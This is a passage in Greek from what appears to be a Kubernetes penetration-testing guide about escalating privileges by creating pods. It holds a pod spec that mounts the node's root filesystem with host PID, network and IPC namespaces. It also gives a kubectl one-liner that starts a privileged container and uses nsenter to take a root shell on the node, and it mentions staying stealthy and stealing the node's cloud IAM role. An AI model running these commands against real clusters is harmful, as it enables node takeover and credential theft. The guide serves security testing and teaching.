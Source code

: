 ```yaml
hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
volumes:
- name: host-volume
hostPath:
path: /
```
{% endcode %}

Δημιουργήστε το pod με:
```bash
kubectl --token $token create -f mount_root.yaml
```
Ένα-γραμμή από [αυτό το tweet](https://twitter.com/mauilion/status/1129468485480751104) και με μερικές προσθήκες:
```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
Τώρα που μπορείτε να δραπετεύσετε στον κόμβο ελέγξτε τεχνικές μετά-εκμετάλλευσης στο:

#### Αόρατος

Πιθανόν να θέλετε να είστε **πιο αόρατος**, στις παρακάτω σελίδες μπορείτε να δείτε σε τι θα μπορούσατε να έχετε πρόσβαση αν δημιουργήσετε ένα pod ενεργοποιώντας μόνο κάποια από τα αναφερόμενα προνόμια στο προηγούμενο πρότυπο:

* **Με προνόμια + hostPID**
* **Με προνόμια μόνο**
* **hostPath**
* **hostPID**
* **hostNetwork**
* **hostIPC**

_Μπορείτε να βρείτε παράδειγμα πώς να δημιουργήσετε/καταχρηστείτε τις προηγούμενες διαμορφώσεις προνομίων των pods στο_ [_https://github.com/BishopFox/badPods_](https://github.com/BishopFox/badPods)

### Δημιουργία Pod - Μετάβαση στο cloud

Αν μπορείτε να **δημιουργήσετε** ένα **pod** (και προαιρετικά ένα **λογαριασμό υπηρεσίας**) μπορείτε να **αποκτήσετε προνόμια στο περιβάλλον cloud** με το **ανάθεση ρόλων cloud σε ένα pod ή ένα λογαριασμό υπηρεσίας** και στη συνέχεια να έχετε πρόσβαση σε αυτό.\
Επιπλέον, αν μπορείτε να δημιουργήσετε ένα **pod με το namespace δικτύου του κόμβου** μπορείτε να **κλέψετε τον ρόλο IAM** της **κόμβου**.

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="pod-escape-privileges.md" %}
[pod-escape-privileges.md](pod-escape-privileges.md)
{% endcontent-ref %}
